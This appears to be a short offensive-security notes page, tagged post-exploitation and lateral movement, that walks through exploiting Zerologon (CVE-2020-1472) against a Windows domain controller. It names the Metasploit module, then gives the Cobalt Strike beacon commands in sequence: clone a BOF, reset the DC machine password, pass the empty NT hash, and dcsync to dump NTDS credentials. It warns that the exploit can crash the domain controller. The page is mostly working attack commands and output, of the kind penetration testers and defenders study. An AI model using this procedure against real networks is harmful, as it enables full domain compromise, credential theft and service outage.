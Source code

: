 ```yaml
---
author(s):
  - Sebastian Dante Alexander
tags:
  - post-exploitation
  - lateral-movement
  - windows
---
```

# C2 Frameworks

## Metasploit

```
msf > use auxiliary/admin/dcerpc/cve_2020_1472_zerologon
```

## Cobalt Strike

Clone the repository then load the script, the destination is `ZeroLogon-BOF/dist/zerologon.cna`. The console should show a new command `zerologon`.

```
> git clone https://github.com/rsmudge/ZeroLogon-BOF
```

Retrieve Domain name (e.g. `domain.tld`).

```
beacon> net domain
```

Run the exploit bypassing the second argument `iunderstand`. By exploiting this vulnerability we reset the password. This exploit can lead to a failure of the domain controller. WE USE IT LAST.

```
beacon> zerologon iunderstand <domain>.<tld>
```

In case of success we get a response.

```
Success! Use pth .\\\%S 31d6cfe0d16ae931b73c59d7e0c089c0 and run dcsync
```

Do exactly what it says.

```
beacon> pth .\\\%S 31d6cfe0d16ae931b73c59d7e0c089c0
```

And run if everything worked successfully, we get NTDS

```
beacon> dcsync domain.local
```